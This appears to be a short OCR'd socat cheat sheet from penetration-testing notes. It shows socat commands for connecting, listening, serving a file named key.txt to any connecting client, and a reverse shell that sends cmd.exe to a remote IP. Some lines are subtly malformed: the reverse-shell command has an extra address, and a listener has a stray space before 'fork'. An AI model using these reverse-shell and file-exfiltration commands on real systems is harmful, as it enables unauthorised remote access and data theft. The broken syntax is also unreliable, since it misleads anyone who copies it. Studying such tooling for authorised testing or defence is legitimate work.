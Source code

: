 # Socat

* ***Connect to tcp/udp***

```shell
socat - TCP4:10.10.10.10:80
```
```shell
socat - UDP:10.0.0.0:53 
```
* ***Listening on a tcp/udp***

```shell
socat TCP4-LISTEN:1337 STDOUT
```
```shell
socat UDP-LISTEN:1337 STDOUT
```

* ***File Transfer***

```shell 
socat TCP4-LISTEN:1337, fork file:~/home/mastermind/key.txt # the file we will send 
```
```shell
socat - TCP4:0.0.0.0:1337 # TO download the file 
```

* ***Reverse Shell***

```shell
socat -d -d TCP4-LISTEN:1337 STDOUT # A LISTENER 
```
```shell
socat - TCP4:192.168.1.107:1337 EXEC:cmd.exe
```
`
